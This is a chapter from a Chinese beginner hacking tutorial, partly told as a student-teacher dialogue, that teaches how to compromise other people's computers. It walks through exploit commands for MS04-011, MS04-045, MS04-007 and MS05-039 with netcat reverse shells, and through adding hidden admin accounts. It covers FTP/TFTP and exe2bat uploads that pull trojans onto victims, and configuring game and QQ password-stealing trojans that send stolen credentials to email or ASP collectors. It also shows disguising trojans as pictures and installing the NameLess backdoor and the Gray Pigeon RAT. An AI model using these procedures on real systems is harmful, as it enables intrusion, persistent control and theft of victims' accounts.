

图 2.4

就可以得到一个 shell 了！不过如今没有安装防火墙的肉鸡已经很少了，即使我们溢出成功了，防火墙一般也会阻止我们连接到它的 1234 端口。这时候我们可以使用反向溢出的办法。

所谓反向溢出是指溢出时，让被溢出的机器把自己的 shell 发送到我们指定的一个机器的某个端口。比如，我在自己的机器上使用 nc 来监听一个端口 520。我的 IP 地址是 192.168.1.123，我们在溢出的时候叫肉鸡把自己的 shell 发送到 192.168.1.123 的 520 端口。这样肉鸡的防火墙就失去作用了。首先在本机使用 nc.exe 监听端口：nc -vv -l -p 520，出现提示：listening on [any] 520...，然后在另一个 CMD 下使用命令：ms04011 0 192.168.1.102 520 192.168.1.123，如图 2.5。


图 2.5

这样就溢出 192.168.1.102 并使其将 shell 发送到 192.168.1.123 的 520 端口。我们看看刚才监听的那个 CMD 窗口，成功的话就会得到对方的一个 shell！如图 2.6。


图 2.6

#### 2.1.2 MS04-045 远程溢出漏洞

MS04-045 漏洞发生在 Windows Internet 命名服务（WINS）上，该服务可将 IP 地址映射到 NetBIOS 计算机名称，或者相反。不过它存在一个远程执行代码漏洞。攻击者可以通过建立恶意网络数据包来利用此漏洞，其中此数据包可能潜在地允许在受影响的系统上远程执行代码。成功利用此漏洞的攻击者可以完全控制受影响的系统。

受影响的系统有 Windows NT/2000/2003，不过该服务并非默认安装的。也就是说，大多数人都将因为没有安装此项服务而不存在该漏洞。如果需要安装的话，得到控制面板／添加删除程序／添加删除 Windows 组件／网络服务，在上面点详细信息。

> **注意**：XP 上并没有这一项，因此在受影响的系统里看不到 XP 的影子。安装完成后系统会打开 42 端口。因此我们可以使用端口扫描程序扫描 42 端口来判断哪台电脑开放了这个服务！

同样的，MS04-045 漏洞也有其专用扫描工具 HS-WINS.exe，在命令行下输入：HS-WINS 目标IP [-vv]，目标 IP 可以是单个 IP，也可以是一个范围，这时候起止 IP 间使用空格隔开。如果要获得详细信息可以在后面加 -vv 参数。比如我们扫描 192.168.1.1 到 192.168.1.254，输入的命令就是：HS-WINS 192.168.1.1 192.168.1.254 -vv，结果如图 2.7。

```bash
HS-WINS 目标IP [-vv]
HS-WINS 192.168.1.1 192.168.1.254 -vv
```


图 2.7

“VULNERABILITY..: unknown:” 这表明是否可溢出未知，如果打了补丁就是 patched，否则为可溢出。当我们找到存在漏洞的主机后，就可以使用它的利用工具 ms04045.exe 进行溢出了。

命令行下输入 ms04045 可以看到帮助信息，不过我们不去看它，直接给出中文的提示：

```
ms04045 -r 目标机 -t 系统 -l 监听主机IP -p 监听端口

比如：ms04045 -r 192.168.1.102 0 -l 192.168.1.123 -p 9876
```

| 编号 | 系统 |
|---|---|
| 0 | Windows 2000 ALL |
| 1 | Windows 2003 CN |
| 2 | Windows 2003 EN |
| 3 | Windows 2003 EN #2 |
| 4 | Windows NT ALL |

这个漏洞只能使用反向连接的方式，所以我们还是要先本地监听一个端口，使用 nc.exe 执行：nc -vv -l -p 9876，监听 9876 端口。然后我们打开一个新的 CMD，然后在新的 CMD 中执行命令：ms04045 -r 192.168.1.102 0 -l 192.168.1.123 -p 9876，这就是要溢出 192.168.1.102 这台主机，因为它是一台 Windows 2000 系统，所以后面有一个 0。

再接着有个 -l 参数，后面跟着的 192.168.1.123 是我们的 IP，意思是让它将 shell 发送到我们这里来。最后的 -p 参数是端口，执行结果如图 2.8。


图 2.8

然后我们检查刚才监听的端口，发现已经得到了 shell，如图 2.9。


图 2.9

#### 2.1.3 MS04-007 ASN.1 远程溢出漏洞

MS04-007 ASN.1 远程溢出漏洞最早于 2004 年 2 月公布，可是当时在网上只是出现了 DoS（拒绝服务攻击）程序，因此许多网站管理员及个人用户都没有关注该漏洞，直到今年 5 月针对该漏洞的远程溢出程序才公布到网上。因此在一定程度上，这个漏洞也比 MS04-045 漏洞要好利用一些。

如何寻找存在该漏洞的电脑呢？我们可以使用端口扫描工具扫描提供以下服务的主机：IIS 服务（80 端口）、IIS-SSL 服务（443 端口）、SMTP 服务（25 端口）、NetBIOS（139 端口）以及 SMB 服务（445 端口）。正是因为这个漏洞可以利用的端口有这么多，才使得这个漏洞的溢出成功率要比上边的 MS04-045 漏洞要高。

我们打开 Superscan4.0（Superscan4 的用法与 Superscan3.0 基本上一样），在开始 IP 与结束 IP 处填入需要扫描的 IP 范围，单击右边的箭头将其保存到 IP 列表，如图 2.10。


图 2.10

进入主机和服务扫描设置，将 UDP 端口扫描的钩去掉，只保留 TCP 端口扫描，单击端口列表下方的“清除所有”，再依次将 80、25、443、445、139 填入开始端口，再单击右边那个箭头将其保存到端口列表中，如图 2.11 所示。


图 2.11

同时将右边的扫描类型改为“直接连接”，回到主界面中，就可以开始扫描了，结果如图 2.12。

192.168.1.8 这个 IP 开放的端口特别多，我们就试试看它有没有漏洞吧！这次使用的工具是 sagi 为大家编译好的 winasn.exe。用法很简单：winasn -p 目标端口 目标IP，或者是：winasn -s 服务类型 目标IP。意思是，如果对方打开了 80 端口，那么我们就使用 winasn -p 80 192.168.1.8，或者是：winasn -s iis 192.168.1.8。比如我们现在要溢出的是 192.168.1.8，它打开了很多端口，我们利用它开在 445 端口的 SMB 服务进行溢出，那么只需要输入：winasn -s smb 192.168.1.8，或者是：


图 2.12

```bash
winasn -p 445 192.168.1.8
```

这样就溢出完毕了，如图 2.13。


图 2.13

成功得到了一个 shell！记住我们要把 nc.exe 放在 winasn.exe 同一目录下，因为 winasn.exe 会自动调用 nc 去连接对方的 8721 端口。

#### 2.1.4 MS05-039 即插即用漏洞

MS05-039 漏洞是今年夏天公布的一个非常严重的安全漏洞，该漏洞存在于 Windows 的即插即用组件里（Plug and Play）。在 Windows 2000 系统中，攻击者可以通过匿名用户建立远程空会话来触发此漏洞。而对于 WinXP 和 Win2003 系统，该漏洞只能被应用于权限的提升。

MS05-039 漏洞与 MS04-011、MS04-045 漏洞类似，也有其专门的扫描工具——MS05-039Scan1.0，运行后如图 2.14。

图2.14

还是在 Start IP 与 End IP 处填入起止 IP 后，单击右边那个箭头就设置完毕了，单击中间靠右的那个蓝色箭头开始扫描寻找有漏洞的主机。很快会发现 192.168.1.3 这个 IP 地址没有打上补丁。

溢出工具的使用方法如下：`ms05039 <host> <conIP> <conPort> [target]`，其中 host 是目标主机，conIP 是接收 shell 的 IP 地址，conPort 是接收 shell 的端口，target 是指定英文还是中文系统。默认是中文。如果是溢出英文系统则需要改为 0。首先在本机监听一个端口：`nc -vv -l -p 1234`，然后，溢出远程主机：`ms05039 192.168.1.3 192.168.1.123 1234`，如图2.15。

图2.15

同样，在本地监听的 nc 会收到肉鸡发过来的 shell，如图2.16。

图2.16

好，以上就是目前比较流行的一些远程溢出漏洞的利用方法，实际上利用的时候只有两步：

- 扫描开放该端口的主机（或者专用扫描器寻找有漏洞的主机）
- 使用溢出工具，输入命令（如果是反向溢出还需要先监听端口）

然后就可以轻松地进入对方主机了，怎么样，黑客技术没有你想象中的那么神秘吧！

## 2.2 送给肉鸡的礼物——“上传”全攻略

> “啊，原来远程溢出入侵这么简单呀！？我还以为黑客入侵别人的电脑都有多难的呢？”

啊剑剑嚷道。“快看啊！我也溢出成功了，得到了一个 shell！”

欠钱：“啊剑剑同学挺聪明的嘛，想不到这么快远程溢出入侵就掌握了。”

得到表扬的啊剑剑别提有多高兴了，仿佛自己一下子就已经成了黑客一样。不停地扫描、溢出……可没过一会儿，三分钟的热度又过去了。“你看我都溢出得到好几个 shell 了，可是得到这些 shell 有什么用呀？好像你前边提到什么木马什么的，那个怎么用呀？”

欠钱：“得到 shell 之后，入侵者通常是将配置好的木马服务端程序上传到对方的电脑中执行，从而进一步完整地控制对方。但是我们在进行木马的控制前，有个前提条件，就是如何将配置好的木马服务端程序上传到对方的电脑上去？”

啊剑剑：“是的呀，那如何上传上去呢？”

### 2.2.1 IPC$上传

Windows NT/2000/XP/2003 默认都提供了 IPC$ 管道连接，但是这些连接我们必须要有对方系统中的用户帐号及密码才可以连接访问。还记得前边我们使用那些工具扫描到的 NT 弱口令吧，现在就可以使用 net use 命令来进行连接了！

```bash
net use \\IP\ipc$ "" /user:"administrator"
```

例如我们扫描到一台电脑的用户名为 administrator，口令为空，我们就可以使用上述命令来进行连接了。如果连接成功的话，系统会提示“命令成功完成。”建立了 ipc$ 连接后，我们就可以使用 `copy file.exe \\IP\admin$` 的格式来将指定的文件上传到对方的电脑里了（admin$ 为对方的 `\winnt` 目录）。另外我们还可以将对方的共享映射成磁盘，例如：`net use z: \\IP\admin$`，这样，对方的 winnt 共享目录就被我们映射成了本地的 z 盘，我们可以像操作自己的硬盘一样来访问它，接下来就可以将要上传的程序直接 copy 到 Z: 盘就可以了，如图2.17。

这个 IPC$ 的利用方法也可以在图形界面下操作，我们可以直接在地址里输入：`\\IP\\共享名`，例如：`\\192.168.1.102\\c$`，如图2.18。

图2.18

接着屏幕上就会弹出一个对话框提示我们输入用户名和密码，如图2.19。

图2.19

输入我们扫描时得到的用户账号及密码，就可以访问了。另外，如果我们远程溢出入侵一台电脑的话，在得到的 shell 里也可以直接添加一个账号：

```bash
net user hacker /add
net localgroup administrators hacker /add
```

接下来就可以用这个新添加的密码为空的账号 hacker 来轻松进入对方的 C 盘了，如图2.20。

图2.20

#### 2.2.2 FTP 上传

FTP 指的是文件传输协议，是为了实现在 Internet 上以及局域网内进行文件传输而制定的一种标准协议，FTP 服务是目前 Internet 上最主要的服务之一。下边我们就来讲一下如何利用 FTP 来向目标电脑上传我们的文件。前提需要我们拥有一个 FTP 服务器或者是在网上有一个 FTP 空间也可以。

我们使用 20CN 的 miniFTP，双击运行就可以了。设置好用户名及密码，访问目录是用户登录进来后所处的目录。为了上传方便，我们可以设置为存放黑客工具的目录。单击“启动服务”按钮，我们的电脑就成了一个 FTP 主机了，如图2.21。

图2.21

在远程溢出后得到的 shell 里依次输入以下命令：`echo o 192.168.1.123>ftp.txt`，192.168.1.123 改为你自己的 IP 地址，注意只有一个“>`”符号，而后面每句命令都是两个“>>”。

```bash
echo zyqq>>ftp.txt            // zyqq改为你刚才在miniFTP里设置的用户名
echo 123456>>ftp.txt          // 123456为密码
echo bin>>ftp.txt             // 使用二进制传输（一般上传exe文件时使用）
echo get fport.exe>>ftp.txt   // 将fport.exe下载到肉鸡上
echo bye>>ftp.txt             // 断开FTP连接
```

完成之后，我们最好检查一下生成的文件里的内容是否正确，使用命令：`type ftp.txt`，查看 ftp.txt 里的内容是否正确。如果检查无误，那么就可以执行命令了。使用 `ftp -s:ftp.txt`，如图2.22。

图2.22

最后在 shell 里 `dir` 一下，就会发现 fport.exe 已经下载到当前目录了。不过记得要赶快 `del ftp.txt` 哦，要不被管理员发现了就不好了。

### 2.2.3 TFTP上传

TFTP（Trivial File Transfer Protocol）是一种用来传输文件的简单协议，默认使用 UDP 协议的 69 端口作为服务端口。TFTP 主要有两个特点：小巧与不可靠。它只适合于传输比较小的文件。使用 tftpd32.exe 可以轻松地架设 TFTP 服务。将其放在我们要上传文件的同一目录下后打开它，TFTP 服务就已经成功运行了，如图2.23。

图2.23

这个软件会被不少杀毒软件当作是危险程序，在使用的时候请关闭杀毒软件！在 CMD 里输入 tftp 得到语法提示：`TFTP -i 主机 get|put 文件名`，`-i` 参数是是否以二进制方式传输文件的意思。在传输可执行文件或者图片时需要此参数。比如，我们（192.168.1.123）在 tftpd32.exe 的目录下存放了一个 mt.exe。那么，我们在 shell 中输入：`tftp -i 192.168.1.123 get mt.exe`，结果如下：

```bash
D:\Documents and Settings\Administrator>tftp -i 192.168.1.123 get mt.exe
Transfer successful: 41011 bytes in 1 second, 41011 bytes/s
```

肉鸡就已经从我们的机器上下载 mt.exe 到它自己的硬盘里了。如果想将肉鸡的文件上传到本机，将 get 改为 put，后面的文件名要写明路径就可以了。比如，肉鸡目录下有一个小东西 test.exe 我们没见过，想下载回来看看到底是什么，在 shell 中执行：`tftp -i 192.168.1.123 put test.exe`，然后我们的机器上就会出现 test.exe 了。

### 2.2.4 EXE转BAT上传

如果上面提到的几种方法都失败的话，我们至少还可以 echo。大家都知道，echo 一般是以 ASCII 方式写入文本到某个文件。可是，利用一些工具我们可以将一个 exe 文件转换为 BAT 文件，在 shell 中 echo 到一个文件后，再利用 debug 工具将其还原为 exe 文件。好了，我们来看一下具体的利用。打开 exe2bat.exe（大文件版）的界面如图2.24所示。

图2.24

点击上边的那个“...”按钮，浏览找到你要上传的文件。因为这种方法极其不稳定，因此上传的文件越小越好！我们以 Mindown 为例，这个文件打开后如图2.25。

图2.25

我们事先将一匹木马上传到了网上，其下载地址为：`http://zhiyeqianqian.51web.cn/su.jpg`。我们要肉鸡自动去下载它回来并保存到 `c:\木马.exe`。按图中例子填好后点“生成”会提示生成了 urldown.exe。这个 urldown.exe 只有 592 字节，完全满足我们的要求。

回到 exe2bat 界面，浏览找到我们的 urldown.exe，那个 RUN 的按钮会变为可用状态，单击 RUN 可以在当前目录下生成 e2b.bat。在 e2b.bat 上点右键，编辑。我们小心地将里面的内容大致平均地分为三次（每次复制的内容最好不要超过 1K），依次复制到 shell 中，单击鼠标右键就可以粘贴到 shell 中并执行了。当全部执行完毕以后，就会在 shell 中看到 urldown.exe 成功上传，如图2.26。执行它将我们的木马下载下来吧！

图2.26

## 第一篇 互联网基础知识

## 计算机网络

http://www

@

## 第三章 影子般的杀手——特洛伊木马

“原来把程序上传到别人的电脑上还有这么多的方法呀！现在我终于知道得到了 shell 后该干什么了。”阿剑剑一边说着，一边开始把自己电脑里的黑客程序往对方的电脑里传。

“欠钱兄，你看我上传了好多的工具呀。还有，我刚把好几个木马程序也传上去了，现在是不是已经可以用那几个上传上去的木马来控制对方了呢？”

欠钱：“这个问题提得好。不过，木马不是这样用的，通常木马都分为控制端及服务端，黑客将配置好的木马服务端程序上传到对方的电脑里去运行，然后在自己的电脑上用控制端程序来连接服务端，控制对方的电脑。接下来，我们就仔细地介绍一下木马。”

木马一般可以分成三种：

- 专用盗号木马。此类木马运行后将潜伏在系统中，平时不做任何动作，可是一旦你要输入你的 QQ 号密码、电子邮箱密码、银行卡账号与密码、网络游戏登录的密码，它们就会出现，将这些信息记录下来并发送给盗号者。
- 传统的后门型木马。一般分命令行方式与 GUI 图形界面两种模式。命令行方式下的后门（比如随意门、hxdef 等）一般只提供一个可以执行命令的 shell，其他类似屏幕监控的功能却没有；而 GUI 模式的后门（比如灰鸽子、黑洞、冰河等）则拥有强大的功能，可以随意操作被控制的电脑，监视对方的屏幕，控制对方的键盘及鼠标。
- 网页木马。这种木马是将自己镶嵌在一个正常的网页中，利用 IE 的漏洞使你在浏览网页的时候不知不觉自动下载并运行某个程序。

木马在使用前都需要按照我们的需要生成一个服务端程序，当对方的电脑运行了这个服务端程序后，它就会按照我们当初的设置，将得到的密码发送给我们，或是等控制端的连接。我们来看看专用的盗号木马，以著名的网络游戏热血传奇为例吧。

### 3.1 阿胖系列之热血传奇 v0.1 免费版

首先运行阿胖系列之热血传奇 v0.1 免费版开始配置服务端程序，在 SMTP 服务器栏里输入 SMTP 服务器的域名，因为我使用的是 126 的信箱，所以 SMTP 服务器就是 `smtp.126.com`。如果你使用的是 163 的信箱，服务器就是 `smtp.163.com`。然后我们依次填写好发信箱用户名、发信箱密码、发信信箱、收信信箱。注意了，发信信箱千万不要与收信信箱一样，反正都是免费的信箱，多申请几个了，如图3.1。

全部填写好了以后，单击那个大大的“测试邮件”，弹出如图3.2的对话框，提示我们发信成功。

登录 126 打开 rec_pass 这个邮箱，看看收到信了没有。如果没有收到的话，可能是我们什么地方填写错了，回头仔细更改一下。如果一切无误的话，我们单击“生成”就可以。

图3.1  
图3.2  
图3.3

看到一句“恭喜木马生成成功”后，我们就会发现当前目录下多了一个 server.exe（图标可是文本文档的样子哦，千万不要自己去点它啊）。这时候我们配置就完毕了，将 server.exe 上传到肉鸡上执行就等着收信吧，如图3.3。

> **注意：**进入游戏之后，因为需要截取装备和物品信息，发信有 1 分钟的延迟。此版本为终身免费版，以后会继续向下开发。不过，免费版不能够截取密保用户信息，除此之外没有任何使用上的限制。v0.1 版本只支持新版传奇客户端，不支持老版的传奇客户端。

### 3.2 魔兽世界多国版

传说中世界上最伟大的网络游戏魔兽世界一亮相，自然少不了黑客界朋友的捧场。10 月 9 日才修正的多国免费版盗号木马摆在我们面前的时候，我们知道，魔兽帐号唾手可得。打开那个眼睛一样的文件（配置端），如图3.4。

这个木马同时支持邮箱收信与 ASP 收信两种方式。任选一种，若都填上，ASP 收信将无效。因为邮箱收信我们已经讲过一次了，所以这次我们重点介绍 ASP 收信。

所谓 ASP 收信意思是，使用一个支持 ASP 的空间，将一个简单的 ASP 收信程序放在上面，使用类似于 `http://zhiyeqianqian.51web.cn/wow/post.asp` 这样的 URL 可以访问得到。该程序主要负责收集到木马发送的信息并将其保存到数据库中（像留言本一样）。

图3.4

然后我们登录后台 `http://zhiyeqianqian.51web.cn/wow/login.asp`，以管理员的身份查看收到的资料，如图3.5。

图3.5

如果没有自己的 ASP 空间的话，可以先不考虑使用它，等学会下面章节中入侵网站以后，再拿一个稳定的 Webshell 来使用。

下面来看具体的使用，如果选择邮箱收信，那么我们要做的就是依次填入收信的邮箱（rec_pass@126.com）、发信邮箱（zhiyeqianqian@126.com）、发信 SMTP（smtp.126.com）、发信帐号（zhiyeqianqian）、发信密码（******）、发信主题（魔兽世界密码来咯），然后进入“安装配置”选项，如图3.6。

这里有三个部分，`<安装路径>` 指的是木马运行后，释放出的文件会在哪，一般我比较喜欢释放在 system 目录下（对应于系统盘下的 system32 目录），辅助目录我填些 drivers，那么木马的完整路径就是 `c:\windows\system32\drivers` 下。安装文件名 MSpass.exe 将出现在任务管理器里的进程中，因此最好将其改名为一个隐蔽一点的名字，比如 svchost.exe。后面的钩子文件名同上，我将它改为 internet.dll。

服务启动，对于不清楚什么是系统服务的朋友请参考附录。这里我们只考虑要将服务写得像系统原先就存在的服务一些，所以把服务名写为：inetsvr，服务显示名为：Windows Internet Service，服务描述为：提供对 Internet 信息服务管理的支持。看看是不是有点系统正常服务的味道？

图3.6  
图3.7

最后在 98 系统下，因为没有服务的概念，只好往注册表里写启动项了，这里有三个选项，`<Run>`、`<Runservice>` 与 `<Shell>`，建议使用 `<Shell>`（更隐蔽）。

一切都设置好了，这时候我们单击“生成木马”，就会看到提示“是否采用该配置”，单击确定，当前目录下就会出现一个 muma.exe 了。

如果采用的是 ASP 收信方式的话，则是先将 ASP 发信程序里的文件都上传到空间上，比如我就已经上传到了 `http://zhiyeqianqian.51web.cn/wow/`。

然后，在网站收信里填入：`http://zhiyeqianqian.51web.cn/wow/post.asp`，进入安装配置，设置同上，生成木马就可以了，如图3.7。

关于这个木马还有几点提示：

- clear 目录下的 clear.exe 是用来卸载木马的。
- server 目录下的 server.exe 是生成木马使用的副本，若将它删除将无法生成木马。
- ASP 发信程序没有更改管理员密码的地方。只能将 `1sadas!dfdb1#.asp` 改名为 `1sadas!dfdb1#.mdb` 后，使用 Access 打开，找到里面的 admin 表，将用户名与密码改为 zhiyeqianqian 与 password 以后，再将 `1sadas!dfdb1#.mdb` 改回 `1sadas!dfdb1#.asp`。

图3.8

然后再将整套程序上传至空间里，如图3.8。

### 3.3 热血江湖最新盗号木马

热血江湖作为一款免费的网络游戏如今也得到了大家的认同，打开它的木马配置程序我们会惊奇地发现，只有两个可以填的地方：ASP 地址与收信邮箱，如图3.9。

图3.9

它的发信原理是，利用 ASP 的 Jmail 组件进行发信，所以首先要将一个设置好的 ASP 发信文件上传到安装有 Jmail 组件并且支持 ASP 的空间。比如我的 `http://...`

## 影子版的杀手

### Easy Hacker

zhiyeqianqian.51web.cn/rxjh/sendmail.asp，木马运行以后，会将密码等信息提交给 sendmail.asp，而此 asp 文件则将它转发给指定的邮箱，或者是以文件的形式保存在服务器上。

所以我们首先要来设置此 ASP 文件。不用怕，我们不用懂任何 ASP 知识，只需要你会用记事本，认识双引号就可以了。用记事本打开后，如图 3.10。


图 3.10

将其依实际情况修改为类似下面的内容：

```asp
'------------------配置信息------------------
Fname = "MyPassword.txt"
Subject = "热血江湖信件" & Chr(32) & Now
SmtpMail = "zhiyeqianqian@126.com"
SmtpUserName = "zhiyeqianqian"
SmtpPass = "******"
SmtpServer = "smtp.126.com"
SmtpName = "Windows"
FsoGood = "True"
JmailGood = "True"
```

利用 ASP 的 FSO 功能可以将收到的密码保存在服务器上（Mypassword.txt），如果你留着默认的信息（Pass.txt），则有可能会被一些同行无意中发现。

那些东西在 SendMail.asp 里也有了注释，将双引号内的内容修改好，别动其他的代码，就绝对不会出错。

接着将此 ASP 文件上传到空间上，将 HTTP 访问的地址填入“ASP 地址”，收信地址填写为 rec_pass@126.com，单击“生成服务端”就可以在当前目录下生成一个“服务端.exe”了。于是该木马的所有配置就完了，想办法拿“服务端.exe”给人家运行吧。

然后我们可以到 rec_pass@126.com 去收信，也可以到 http://zhiyeqianqian.51web.cn/rxjh/mypassword.txt 里去查看，如图 3.11。


图 3.11

## 第三章 木马编写

### 3.4 伪经典系列木马（冒险岛，梦幻西游，真封神，破天一剑，传奇II，QQ……）

请原谅我把这么多游戏的木马放在一起介绍，可是谁让它们的作者是同一个人，所有配置的界面都完全一样呢？所以，如果需要盗取这些游戏的密码，不妨看看这个系列的木马。我们以冒险岛游戏的木马为例，打开配置程序后如图 3.12。


图 3.12

它使用的是传统的邮件发送形式，而且比较郁闷的是免费版收信与发信只能使用同一个帐号，否则测试发信的时候会不通过。这里我咬咬牙使用比较常用的 zhiyeqianqian@126.com 来发送/收取密码信息。我们在“接收信箱地址”处填入 zhiyeqianqian@126.com 后，信箱用户名会自动填为 zhiyeqianqian，信箱密码照实填写，发信主题写为“冒险岛密码来咯”，SMTP 服务器会自动辨识为 smtp.126.com。

点“测试发信”看是否有不对的地方，很快我就在信箱中收到了测试的信，如图 3.13。


图 3.13

于是我们进入右边的设置。

首先注意到这里有两个选择：“生成图片木马（SRC）文件”与“生成 EXE 木马”。如果我们打算将一个木马通过 QQ 发给别人，骗他们说这是美女的照片，那么人家点了以后没反应肯定会生疑的，那么我们就可以选择生成图片木马，单击“浏览”按钮选择好一个 JPG 格式的美女图片，那么别人运行后就会弹出那个 MM 的照片，如图 3.14。


图 3.14

第一次运行后，别人自动掉线时间设置为 2 分钟，单击生成木马，提示输入保存的文件名（不要写后缀），如图 3.15。


图 3.15

然后就得到可爱的冒险岛图片木马了。若使用 EXE 木马则运行后无任何反应，适用于入侵或者网站挂马。

该作者除了冒险岛，还做了大量的网络游戏木马，比如梦幻西游、真封神、破天一剑等等，甚至 QQ 木马都有。不过好在使用方法完全一样，所以就不再一一介绍了。

### 3.5 阿拉QQ大盗

常在网上游，哪能不用 Q。QQ 作为国内市场最大的即时通讯工具，它又开设了那么多的收费服务，于是那一个小小的号码也成为黑客们眼中的宝贝。它的盗号工具也开始漫天飞舞，一直到 QQ 2005 beta3 的出现。

QQ 2005 beta3 使用了国际先进的 nProtect 键盘加密保护技术，在启动的时候，会出现如图 3.16 的一把小锁，此时任何键盘记录的木马都无法获取你输入的密码信息。而如果破坏掉了 nProtect 组件的话，会出现如图 3.17 的界面。所以大家上 QQ 的时候一定要时刻注意这把小锁的状态哦。


阿拉 QQ 大盗就是一款通过破坏掉 nProtect 组件进行盗取 QQ 2005 beta3 密码的（也支持以下版本）。我们打开它的配置程序来看看，如图 3.18。

它支持邮箱发信与网页发信两种形式，首先看看邮件形式发信的配置。收信箱（靓）与收信箱（普）是分别用来接收靓号与普通号的地址，分别填入以后，与上面一样设置好 SMTP 服务器、用户名密码与完整的发信帐号信息，就可以测试是否设置正确了。网页收信设置信息很简单，如图 3.19。


将 tmdqq.asp 上传到 ASP 空间后，将 tmdqq.asp 的完整地址（比如：http://zhiyeqianqian.51web.cn/tmdqq.asp）填入，就算设置完毕了。高级设置处一般来说默认就可以了，将自定义图标改为图片，单击生成木马就可以了，如图 3.20。

当对方中招了以后，我们可以打开邮箱，或者到 http://zhiyeqianqian.51web.cn/qq.txt 去访问看看，所有盗得的号码与密码都在里面了。


图 3.20

### 3.6 传统木马 NameLess

NameLess BackDoor V1.14（稳定版）在众多传统型木马中，笔者无意中发现了这款平时不开端口、可以进行反连接的后门程序，它集成了榕哥的 BITS 和 WinEggDrop 的 PortLess 所具有的优点。它只有一个 DLL 文件：NameLess.dll，将它的名字改一下，免得太招摇了：svchost.dll。通过任意方式上传到肉鸡上后（最好放在 system32 目录下），输入命令：Rundll32 svchost.dll,Install ServiceName ActiveString Password，以上严格区分大小写，不可搞错。

这里的 Install 表示执行 svchost.dll 中的安装函数，而 ServiceName 是肉鸡上已经存在的一个服务名（最好找一个无关紧要的服务，后门会替换它），ActiveString 是激活字符串，Password 是登录密码。因为都是命令，所以这里用一次模拟的入侵来介绍它的使用。

无意中发现一台 Windows2003 的服务器和我在一个局域网里，通过一个老漏洞溢出得到一个 shell，于是架设好 TFTP 服务器，将 NameLess.dll 改名为 svchost.dll 放到 TFTP 服务器同一目录下。在 shell 中输入：tftp -i 192.168.1.123 get svchost.dll，如图 3.21。


图 3.21

很快传完了。这时候，首先看看它都开有些什么服务吧。输入：`net start`，在一堆的服务中，偶看中了 Print Spooler 服务（服务名为 Spooler），网络打印机的服务一般人用得不多，所以我输入：`net stop Spooler`，将该服务停掉，然后输入：`rundll32.exe svchost.dll,Install Spooler zyqq 123456`，安装后门。此命令的意思是，替换系统中的 Spooler 服务，将激活字符串设为 zyqq，登录密码是 123456。接着输入：`net start Spooler`，将服务启动。

此时，一个非常隐蔽又好用的后门安装成功了！打开另一个 CMD 来连接看看就知道了，扫描得知该服务器打开了很多端口，随便挑一个 1025 端口，使用 nc.exe 连接上去：`nc -vv 192.168.1.14 1025`，连接上以后，输入：`zyqq:1984`，在 shell 中看看，肉鸡已经打开 1984 这个端口了，此时使用 nc.exe 连接到该端口：`nc -vv 192.168.1.14 1984`，就会看到一句 Enter Password，输入 123456，成功得到 shell。

其实还可以反向连接，比如首先在本机监听一个端口：`nc -vv -l -p 1985`，然后还是使用 nc 连接到它的 1025 端口，输入 `zyqq|192.168.1.123;1985`，回车后，就会看到我们监听的端口有动静了，输入密码 123456 一样可以得到 shell。适用于肉鸡有防火墙同时本身有外网 IP 的朋友。

得到的 shell 是一个模拟的 Pre-shell，这里输入 `help` 可以得到很多命令帮助和信息。大家看说明文件好了，我不再多说。

### 3.7 传统木马灰鸽子

我想刚才得到的 CMD 下的 shell 可能会让一些小菜朋友们眼花吧，那么这里我再给大家讲一个图形界面下的木马：灰鸽子！

解压缩后，除了客户端，还有一个 huigezi 文件夹。这个文件夹中的东西是用来破解鸽子的用户验证的。

打开 huigezi 目录中的 hosts.exe，提示是否覆盖 HOSTS 文件，选择“是”，如图 3.22。


图 3.22

### Easy Hacker

运行 HTTP.exe，单击“开始服务”运行 HTTP 服务，如图 3.23。


图 3.23

如果机器上装有 IIS 或者是 Apache 服务，请暂时停止它们。返回上级目录打开 H-Client.exe，单击“配置服务程序”后出现如图 3.24 的界面。


图 3.24

什么叫做备用自动上线？自动上线的原理是，在我们自己的 IP 无法固定的情况下，使用一个网站上保存某个 IP 信息的文件。比如我用自己的空间 `http://zhiyeqianqian.51web.cn/ip.jpg` 保存我的 IP 信息，那么肉鸡会每隔一段时间去读取这个文件，然后得到我们的 IP 地址以后，反向连接我们，使我们得到控制权。

因此，我将该 URL 写为 `http://zhiyeqianqian.51web.cn/ip.jpg`，“自动上线连接密码”留空，钩上“只使用备用自动上线”，进入“安装选项”。将安装名称改为 `rund1132.exe`（这里是数字 1 而不是字母 l），选中“自动删除安装文件”，如图 3.25。


图 3.25

进入“启动项”设置信息，自行更改为隐藏的服务名、服务显示名与服务描述，如图 3.26。


图 3.26

进入“服务器图标”处，选中“修改服务器图标”，单击喜欢的任意图片，如图 3.27。


图 3.27

一切设置完毕后，我们在“用户名”与“用户密码”处随便填些什么，单击“生成服务端”就会弹出一个对话框，提示我们成功生成了服务端了。

接下来，我们还要把自己的 IP 地址与监听端口写到 `http://zhiyeqianqian.51web.cn/ip.jpg` 上去，所以我们回到灰鸽子的客户端主界面，单击自动上线，选择最后一项“FTP 更新 IP”，如图 3.28。


图 3.28

### Easy Hacker

这里填入 FTP 服务器的地址，自己的 FTP 用户名与密码，存放的文件位置，自己的外网 IP 与端口。如果是内网用户暂时就没办法使用这个木马了，不过后面我会教大家做端口映射在内网中使用它的。单击“更新 IP 到 FTP 空间”后，就会听到一声清脆的女声：“自动上线设置成功，请等待服务端上线”。到这里我们的设置就全部完成了，接下来只需把服务端发给肉鸡运行了。

“好了，基本上市面上流行的木马就这些了，其他的木马虽多，原理却也差不太多。现在我们课间休息 10 分钟，我要和 GG 聊天了。”欠钱伸了伸懒腰。

